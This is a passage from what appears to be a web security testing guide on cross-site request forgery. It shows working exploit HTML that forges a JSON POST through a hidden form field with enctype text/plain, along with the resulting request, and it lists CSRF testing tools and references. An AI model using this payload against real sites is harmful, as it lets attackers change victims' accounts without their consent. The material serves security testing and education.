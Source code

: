     </body>
    </html>

In case of web applications in which developers are utilizing JSON for browser to server communication. A problem may arise with the fact that there are no query parameters with the JSON format, which are a must with self-submitting forms. To bypass this case, we can use a self-submitting form with JSON payloads including hidden input to exploit CSRF. We'll have to change the encoding type (enctype) to text/plain for sanity (to ensure the payload is delivered "as is"). The exploit code will look like the following:
```
<html>
 <body>
  <script>history.pushState('', '', '/')</script>
   <form action='http://victimsite.com' method='POST' enctype='text/plain'>
     <input type='hidden' name='{"name":"hacked","password":"hacked","padding":"'value='something"}' />
     <input type='submit' value='Submit request' />
   </form>
 </body>
</html>
```
The POST request will be as follow:
```
POST / HTTP/1.1
Host: victimsite.com
Content-Type: text/plain

{"name":"hacked","password":"hacked","padding":"=something"}
```
when this data is sent as a POST request, the server will happily accept the name and password fields and ignore the one with the name padding as it does not need it.

Tools
-----

-   WebScarab Spider <http://www.owasp.org/index.php/Category:OWASP_WebScarab_Project>
-   CSRF Tester <http://www.owasp.org/index.php/Category:OWASP_CSRFTester_Project>
-   Cross Site Requester <http://yehg.net/lab/pr0js/pentest/cross_site_request_forgery.php> (via img)
-   Cross Frame Loader <http://yehg.net/lab/pr0js/pentest/cross_site_framing.php> (via iframe)
-   Pinata-csrf-tool <http://code.google.com/p/pinata-csrf-tool/>

References
----------

**Whitepapers**\
\* Peter W: “Cross-Site Request Forgeries” - <http://www.tux.org/~peterw/csrf.txt>

-   Thomas Schreiber: “Session Riding” - <http://www.securenet.de/papers/Session_Riding.pdf>
-   Oldest known post - <http://www.zope.org/Members/jim/ZopeSecurity/ClientSideTrojan>
-   Cross-site Request Forgery FAQ - <http://www.cgisecurity.com/articles/csrf-faq.shtml>
-   A Most-Neglected Fact About Cross Site Request Forgery (CSRF) - [<http://yehg.net/lab/pr0js/view.php/A_Most-Neglected_Fact_About_CSRF.pdf>](http://yehg.net/lab/pr0js/view.php/A_Most-Neglected_Fact_About_CSRF.pdf)
